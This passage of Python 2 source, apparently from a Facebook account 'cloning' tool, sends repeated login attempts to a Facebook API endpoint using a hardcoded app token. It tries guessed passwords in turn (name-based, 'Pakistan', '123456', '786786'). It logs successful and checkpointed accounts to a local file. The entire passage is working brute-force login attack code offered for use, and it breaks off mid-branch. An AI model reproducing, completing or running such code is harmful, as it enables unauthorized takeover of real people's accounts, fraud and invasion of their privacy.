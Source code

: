                 else:
                    pass2 = k + nama + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;32m[RK-OK]  ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/cloned.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass2
                            cps = open('save/cloned.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="Pakistan"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;32m[RK-OK]  ' + k + c + user + '  |  ' + pass3
                                okb = open('save/cloned.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass3 
                                    cps = open('save/cloned.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="123456"
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;32m[YB-OK]  ' + k + c + user + '  |  ' + pass4 
                                        okb = open('save/cloned.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;97m[RK-CP] ' + k + c + user + '  |  ' + pass4
                                            cps = open('save/cloned.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()
                                            cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"
                                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q: